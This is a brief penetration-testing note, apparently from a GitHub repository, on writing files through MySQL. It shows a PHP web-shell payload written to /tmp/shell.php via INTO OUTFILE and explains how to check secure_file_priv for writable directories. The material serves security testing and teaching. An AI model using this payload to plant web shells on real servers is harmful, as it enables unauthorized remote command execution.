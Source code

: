 # Pentesting MySQL

## Check file locations that you can write to
[Source](https://stackoverflow.com/questions/32737478/how-should-i-resolve-secure-file-priv-in-mysql)

When attempting to write to a file you may get the following error:
```
select "<? echo passthru($_GET['cmd']); ?>" INTO OUTFILE '/tmp/shell.php';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

You can check the file locations that you can write to by running the following command:
```
mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-----------------------+
| Variable_name    | Value                 |
+------------------+-----------------------+
| secure_file_priv | /var/lib/mysql-files/ |
+------------------+-----------------------+
1 row in set (0.00 sec)
```
